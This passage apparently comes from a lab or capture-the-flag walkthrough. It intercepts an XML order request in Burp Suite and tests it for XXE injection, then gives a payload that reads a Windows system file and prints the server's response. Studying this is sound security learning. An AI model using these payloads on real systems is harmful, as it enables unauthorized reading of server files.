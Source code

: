 Going forward, let's use Burpsuite to analyze the content of requests we send and related responses.

After setting Burpsuite to proxy the browser flowing data, fill forms with random information, for example:
```
Type of Goods: Home Appliances
Quantity: 10
Address: ASDASD
```
and click on "Submit". This request will be intercepted by Burpsuite if you set Intercept as ON. Otherwise, you can get the request information on "Proxy" -> "HTTP history" tab. The output from the browser will be "Your order for Home Appliances has been processed".

Inside this request, we can see the following POST data:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<order>
   <quantity>10</quantity>
   <item>Home Appliances</item>
   <address>ASDASD</address>
</order>
```
It could be prone to XXE Injection. Let's try to do a test:

Right-click on this request above inside Burpsuite and select "Send to Repeater" (CTRL+R) and move to "Repeater" tab. By referring https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection, edit the POST data in the following manner:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [
  <!ENTITY test "Home Appliances">
]>
<order>
   <quantity>10</quantity>
   <item>&test;</item>
   <address>ASDASD</address>
</order>
```
click on "Send" and the response will show "Your order for Home Appliances has been processed".

It means that the `<item>` form could be prone to XXE Injection. At this point, we can try to read the content of some file inside the target server. Remember that probably we are communicating to a Windows machine:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM 'file:///C:/windows/system32/drivers/etc/hosts'>]>
<order>
   <quantity>10</quantity>
   <item>&xxe;</item>
   <address>HELLO THERE!</address>
</order>
```
By clicking on "Send" button, the response will be:
```
Your order for # Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names. Each
# entry should be kept on an individual line. The IP address should
# be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one
# space.
#
# Additionally, comments (such as these) may be inserted on individual
# lines or following the machine name denoted by a '#' symbol.
```
